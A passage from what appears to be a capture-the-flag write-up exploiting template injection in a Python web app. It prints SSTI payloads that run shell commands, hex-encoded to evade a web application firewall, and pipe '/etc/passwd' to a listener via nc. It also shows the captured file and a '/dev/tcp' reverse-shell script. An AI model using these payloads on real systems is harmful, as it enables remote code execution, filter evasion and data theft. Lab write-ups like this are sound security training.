The example from the post to get RCE and exfil the result using `nc` is:

    
    
    {% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /etc/passwd | nc HOSTNAME 1337')['read']() == 'chiv' %} a {% endif %}
    

This payload is attempting to read `/etc/passwd` and send it back over `nc`.

I’ll have to tweak it a bit to get around the WAF, so I’ll encode the suspect
characters to see if that gets through:

    
    
    {% if request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("cat /etc/passwd | nc 10\x2e10\x2e14\x2e7 1337")["read"]() == "chiv" %} a {% endif %}
    

It seems there are some multicharacter rules in place as well:

![image-20210517144030463](https://0xdfimages.gitlab.io/img/image-20210517144030463.png)

Another option with the `{% %}` syntax is to include another object.

    
    
    {% include request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("cat /etc/passwd | nc 10\x2e10\x2e14\x2e7 1337")["read"]()%}
    

The bad news if that the results will not be displayed back to the page, as
once the execution happens and returns, it will certainly fail the `include`.
But if it works, the execution should have shipped `/etc/passwd` back to me
already at that point.

With `nc` listening, submitting that as the message worked!

    
    
    oxdf@parrot$ nc -lnvp 1337
    listening on [any] 1337 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.243] 51278
    root:x:0:0:root:/root:/bin/bash
    ...[snip]...
    chiv:x:1000:1000:chiv:/home/chiv:/bin/bash
    mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
    

The page hangs until I kill the `nc`, and then it return 500 as expected.

### Shell

I created a `shell.sh` locally:

    
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.7/443 0>&1
    

Then I used this payload to `curl` it and pipe it to Bash:
